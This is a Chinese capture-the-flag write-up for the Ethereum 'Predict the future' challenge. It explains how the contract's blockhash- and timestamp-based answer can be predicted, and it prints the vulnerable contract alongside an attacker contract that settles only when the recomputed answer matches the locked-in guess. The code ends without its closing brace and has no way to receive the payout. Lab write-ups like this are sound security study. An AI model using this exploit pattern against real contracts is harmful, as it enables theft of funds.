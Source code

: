 返回 Check, 完成 ✅

---

###### Predict the future

这个题的核心在于 先自己选择一个 [0,9] 之内的整数 锁进去, 然后 再来执行 settle 函数, 其中 answer 的值的计算方式和上面计算方式是一样的, 只不过最后 进行模 10 运算, `uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;` 同理, 我们这个题也选用走一层合约的方式去解决.

> 注意: 这里我们需要有两个动作 ,一个是`LockInGuess` 另一个是`Guess` , 这两个动作 都需要用中间合约来完成, 即不能用我们自己的小狐狸钱包进行传参数调用,

合约代码如下

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;
    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }
    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }
    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}

contract attacker {
    PredictTheFutureChallenge target;
    constructor (address des) public {
        target = PredictTheFutureChallenge(des);

    }
    function attack() public payable {
        uint8 result = uint8(keccak256(blockhash(block.number-1),now)) % 10;
        if (result == 5) {
            target.settle();
        }
    }
    function lock() public payable {
        target.lockInGuess.value(1 ether)(5);
    }
    function settle() public {
        target.settle();
    }
```